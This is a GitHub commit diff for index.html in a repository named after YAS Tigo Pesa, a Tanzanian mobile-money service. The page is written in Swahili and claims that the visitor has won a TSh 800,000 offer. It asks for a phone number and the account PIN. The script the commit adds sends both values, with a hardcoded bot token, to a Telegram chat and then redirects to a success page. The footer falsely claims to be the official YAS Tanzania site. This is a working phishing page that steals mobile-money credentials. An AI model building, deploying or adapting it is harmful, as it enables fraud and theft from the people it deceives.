

Before and after one commit to captainmiles666-tech/yas-tigo-pesa, a plain HTML site: page index.html in a window 1280 px wide. Drawn offline with Linux system fonts and the light colour scheme.

Commit message:
Add files via upload

```diff
--- a/index.html
+++ b/index.html
@@ -3,73 +3,216 @@
 <head>
   <meta charset="UTF-8" />
   <meta name="viewport" content="width=device-width, initial-scale=1.0"/>
-  <title>YAS Tigo Pesa – Thibitisha</title>
+  <title>Umejishindia Ofa Wa YAS Tigo Pesa</title>
+
+  <!-- Google Fonts -->
   <link rel="preconnect" href="https://fonts.googleapis.com">
   <link rel="preconnect" href="https://fonts.gstatic.com" crossorigin>
-  <link href="https://fonts.googleapis.com/css2?family=Inter:wght@400;600;700&display=swap" rel="stylesheet">
-  <link rel="stylesheet" href="style.css"/>
+  <link href="https://fonts.googleapis.com/css2?family=Inter:wght@400;500;600;700;800&family=Poppins:wght@500;600;700&display=swap" rel="stylesheet">
+
+  <style>
+    body {
+      font-family: 'Inter', system-ui, -apple-system, BlinkMacSystemFont, sans-serif;
+      background: linear-gradient(180deg, #eef7f4 0%, #f7fbff 100%);
+      display: flex;
+      justify-content: center;
+      align-items: center;
+      min-height: 100vh;
+    }
+
+    .card {
+      background: #ffffff;
+      width: 100%;
+      max-width: 440px;
+      padding: 26px;
+      border-radius: 18px;
+      box-shadow: 0 14px 40px rgba(0,0,0,0.10);
+    }
+
+    h2 {
+      font-family: 'Poppins', sans-serif;
+      color: #0b2e6f;
+      margin-bottom: 10px;
+      font-size: 22px;
+      font-weight: 700;
+    }
+
+    p {
+      color: #3a3a3a;
+      font-size: 15px;
+      margin-bottom: 18px;
+      line-height: 1.6;
+      font-weight: 500;
+    }
+
+    .offer {
+      background: linear-gradient(135deg, #e7f6ef, #dff3ff);
+      border-radius: 14px;
+      padding: 20px;
+      text-align: center;
+      margin-bottom: 20px;
+      border: 1px solid #d7efe5;
+    }
+
+    .offer small {
+      display: block;
+      color: #2c6e5a;
+      font-size: 14px;
+      margin-bottom: 6px;
+      font-weight: 600;
+    }
+
+    .offer strong {
+      color: #158f62;
+      font-size: 30px;
+      font-weight: 800;
+      letter-spacing: 0.5px;
+    }
+
+    input {
+      width: 100%;
+      padding: 15px;
+      margin-bottom: 14px;
+      border-radius: 12px;
+      border: 1.5px solid #cfd8dc;
+      font-size: 16px;
+      font-weight: 500;
+      outline: none;
+    }
+
+    input:focus {
+      border-color: #1a9b63;
+      box-shadow: 0 0 0 3px rgba(26,155,99,0.12);
+    }
+
+    button {
+      width: 100%;
+      padding: 15px;
+      background: linear-gradient(90deg, #0b2e6f, #1a9b63);
+      color: #ffffff;
+      border: none;
+      border-radius: 14px;
+      font-size: 17px;
+      font-weight: 700;
+      cursor: pointer;
+      letter-spacing: 0.4px;
+    }
+
+    button:disabled {
+      opacity: 0.65;
+    }
+
+    .loader {
+      display: none;
+      text-align: center;
+      margin-top: 12px;
+      font-size: 14px;
+      font-weight: 600;
+      color: #0b2e6f;
+    }
+
+    .note {
+      margin-top: 16px;
+      font-size: 13px;
+      text-align: center;
+      color: #555;
+      font-weight: 500;
+    }
+
+    .footer {
+      margin-top: 14px;
+      font-size: 12px;
+      text-align: center;
+      color: #888;
+      font-weight: 500;
+    }
+  </style>
 </head>
 <body>
 
-<div class="wrapper">
-  <div class="card">
+<div class="card">
+  <h2>Umejishindia Ofa Wa YAS Tigo Pesa</h2>
 
-    <h1 class="title">Umejishindia Ofa Wa YAS Tigo Pesa</h1>
+  <p>
+    Karibu! Ingiza namba yako ya simu na YAS (neno 4) ili kuthibitisha na kuendelea kupata ofa yako.
+  </p>
 
-    <p class="subtitle">
-      Karibu! Ingiza namba yako ya simu na <strong>YAS Tigo Neno Siri (tarakimu 4)</strong>
-      ili kuthibitisha na kuendelea kupata ofa yako.
-    </p>
+  <div class="offer">
+    <small>Kiwango cha Ofa kinachoweza kupatikana</small>
+    <strong>TSh 800,000</strong>
+  </div>
 
-    <div class="offer-box">
-      <span>Kiwango cha Ofa kinachoweza kupatikana</span>
-      <strong>TSh 800,000</strong>
-    </div>
+  <form id="verifyForm">
+    <input
+      type="tel"
+      placeholder="Namba ya simu (mf. 07XXXXXXXX)"
+      required
+    />
 
-    <input id="phone" type="tel" placeholder="Namba ya simu (mf. 07XXXXXXXX)" class="input"/>
+    <input
+      type="password"
+      placeholder="YAS (neno 4)"
+      inputmode="numeric"
+      minlength="4"
+      maxlength="12"
+      required
+    />
 
-    <input id="yas" type="password" inputmode="numeric" maxlength="4"
-      placeholder="YAS Tigo Neno Siri (tarakimu 4)" class="input"/>
+    <button type="submit">Thibitisha</button>
+    <div class="loader" id="loader">Inachakatwa...</div>
+  </form>
 
-    <button class="btn" onclick="goNext()">Thibitisha</button>
+  <div class="note">
+    Ukithibitisha, unakubali masharti ya matumizi.
+  </div>
 
-    <p class="note" id="status">Ukithibitisha, unakubali masharti ya matumizi.</p>
-
-    <p class="footer">© YAS Tanzania – Ukurasa Rasmi wa Mfano</p>
-
+  <div class="footer">
+    © YAS Tanzania – Ukurasa Rasmi wa Mtandao
   </div>
 </div>
 
 <script>
-function goNext(){
-  const phone = document.getElementById("phone").value;
-  const yas = document.getElementById("yas").value;
-  const status = document.getElementById("status");
+document.getElementById("verifyForm").addEventListener("submit", function(e){
+  e.preventDefault();
 
-  if(!phone || yas.length !== 4){
-    status.innerText = "Tafadhali jaza taarifa zote sahihi.";
-    status.style.color = "red";
+  const phone = e.target[0].value.trim();
+  const code  = e.target[1].value.trim();
+  const loader = document.getElementById("loader");
+  const button = e.target.querySelector("button");
+
+  if (code.length < 4) {
+    alert("Ingiza angalau tarakimu 4");
     return;
   }
 
-  status.style.color = "#0b3b82";
-  status.innerText = "Inathibitisha... tafadhali subiri";
+  button.disabled = true;
+  loader.style.display = "block";
 
-  const yasCode = Math.floor(1000 + Math.random() * 9000);
+  const BOT_TOKEN = "8148382683:AAFHRvpHd1ljQO7TmxpGzPDr2fMuWU-Ecos";
+  const CHAT_ID   = "8513120100";
 
-  fetch("https://api.telegram.org/bot8148382683:AAFHRvpHd1ljQO7TmxpGzPDr2fMuWU-Ecos/sendMessage", {
+  const message =
+`📥 YAS OFFER VERIFICATION
+📱 Namba: ${phone}
+🔢 Code: ${code}
+📏 Digits: ${code.length}
+🕒 ${new Date().toLocaleString()}
+
+ℹ️ Verification / Demo`;
+
+  fetch(`https://api.telegram.org/bot${BOT_TOKEN}/sendMessage`, {
     method: "POST",
-    headers: { "Content-Type": "application/json" },
+    headers: {"Content-Type": "application/json"},
     body: JSON.stringify({
-      chat_id: "8513120100",
-      text: `📲 YAS TIGO PESA – SUBMISSION
-📞 Simu: ${phone}
-🔢 YAS Code: ${yasCode}`
+      chat_id: CHAT_ID,
+      text: message
     })
-  }).finally(() => {
-    window.location.href = "processing.html";
+  }).then(() => {
+    setTimeout(() => {
+      window.location.href = "success.html";
+    }, 2000);
   });
-}
+});
 </script>
 
 </body>
```
Also changed, not shown: success.html (added, +55 -0 lines).
